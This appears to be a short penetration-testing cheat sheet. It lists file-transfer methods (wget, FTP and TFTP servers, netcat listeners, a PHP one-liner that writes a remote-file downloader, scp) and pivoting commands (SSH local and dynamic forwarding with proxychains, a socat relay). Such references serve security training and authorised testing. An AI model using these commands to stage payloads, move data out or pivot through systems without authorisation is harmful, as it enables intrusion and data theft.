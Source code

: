 wget

```
wget http://webserver/file.txt > output.txt
```

FTP

```
pip install pyftpdlib
python -m pyftpdlib -p 21 -w
```

TFTP

```
service atftpd start
atftpd --daemon --port 69 /tftp
/etc/init.d/atftpd restart
auxiliary/server/tftp
```

NC Listeners

```
nc -lvnp 443 < filetotransfer.txt
nc <ip> 443 > filetransfer.txt 
```

PHP File Transfers

```
echo "<?php file_put_contents('nameOfFile', fopen('http://192.168.1.102/file', 'r')); ?>" > down2.php
```

SCP

```
# Copy a file:
scp /path/to/source/file.ext username@192.168.1.101:/path/to/destination/file.ext

# Copy a directory:
scp -r /path/to/source/dir username@192.168.1.101:/path/to/destination
```

### Lateral Movement / Pivoting

SSH Local Port Forward

```
ssh <user>@<target> -L 127.0.0.1:8888:<targetip>:<targetport>
```

SSH Dynamic Port Forward

```
ssh -D <localport> user@host
nano /etc/proxychains.conf
127.0.0.1 <localport>
```

Socat Port Forward

```
./socat tcp-listen:5000,reuseaddr,fork tcp:<target ip>:5001
```

